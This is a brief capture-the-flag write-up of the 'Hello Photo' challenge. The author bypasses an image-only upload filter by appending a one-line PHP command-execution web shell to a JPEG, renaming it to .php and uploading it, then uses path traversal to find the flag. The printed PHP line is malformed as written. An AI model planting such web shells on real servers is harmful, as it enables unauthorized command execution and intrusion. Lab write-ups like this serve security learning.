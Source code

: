 ```yaml
---
layout: default
title:  "Shellter Labs - Hello Photo"
date:   2019-05-29
categories: main
---
```


# Shellter Labs- Hello Photo
By just seeing the upload button i thought that is surely going to be an executing command using file upload challenge

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029410368_Screen+Shot+2019-05-28+at+1.12.15+PM.png)


Earlier i have performed command execution through an upload action in another CTF, but it was direct file upload without any restriction but here i have restriction that i only have to upload jpeg or gif

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029577670_Screen+Shot+2019-05-28+at+1.15.38+PM.png)


So i searched for reverse shell through images, then i came across a video which showed me how to add a php content to image and change it into php extension  


    echo ‘<?php if($_GET{system($_GET[“cmd”]);}?>’ >> uploadImage.jpg


    mv uploadImage.jpg uploadImage.php

A php file will b created,what we need to do is  just to upload the php file

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030280071_Screen+Shot+2019-05-28+at+1.27.46+PM.png)


It says that my file is uploaded successfully now what we can access the php file which is available in ‘uploads’ directory

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030384719_Screen+Shot+2019-05-28+at+1.29.31+PM.png)


So my command is working properly

Now we have to find the flag, as usual try path traversal

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030449651_Screen+Shot+2019-05-28+at+1.30.40+PM.png)


So here we go found the flag

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030512440_Screen+Shot+2019-05-28+at+1.31.20+PM.png)


**Takeaway:**

Command execution with file upload using image files.

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>

